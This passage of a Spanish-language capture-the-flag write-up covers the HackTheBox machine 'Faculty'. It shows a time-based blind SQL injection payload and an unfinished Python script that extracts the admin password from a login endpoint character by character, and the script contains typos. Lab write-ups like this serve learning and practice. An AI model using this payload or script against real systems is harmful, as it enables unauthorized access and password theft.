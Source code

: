 Y veo que efectivamente esta vez me loguea como Administrador

![Admin](../assets/images-Faculty/Admin.png)

#### Fail SQLI
Como veo que se acontece la SQLI y es basada en tiempo, ya que no recibo ningun tipo de error o código de estado al introducir diferentes query erróneas lo que si me llegue a ver es que en ciertas query me mostraba la ruta `/var/www/scheduling/admin/admin_class.php`, pero cuando lo hago con tiempo con una query valida si me lo interpreta por lo tanto lo voy hacer un pequeño script 

```python
#!/usr/bin/python3

from pwn import *
import rquests, time, sys, pdb, string, signal

def def_handler(sig, frame):
	print("\n\n [!]Saliendo...\n")
	sys.exit(1)
# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

#Variables Globales
characters = string.ascci_lowercase + string.digits + "-_"
login_url = "http://faculty.htb/admin/ajax.php?action=login"

def sqli():
	# Variable
	password = ""
	#barra de progreso
	p1 = log.progress("Fuerza Bruta")
	p1.status("Iniciando ataque de fuerza bruta")
	
	time.sleep(2)
	
	p2 = log.progress("Admin Password [DB:scheduling_db][Tabla:users][Columns: password] (admin)")
	#Longitud
	for position in range(1, 35):
		#Caracteres
		for character in characters:
			#Data tramitada por post
			post_data ={	
			#Query sleep
			'username': "admin'and if(substr((select password from users where username='admin'),%d,1)='%s',sleep(3),1)-- -" % (position,character),
			'password':'admin'
			}
			#Barra de progreso que se actualiza el valor de post_data
			p1.status(post_data['username'])
				
			#Para saber que tarda 3 segundos o el tiempo que indiquemos hacemos lo siguiente
			time_start = time.time() #El tiempo de inicio actual
```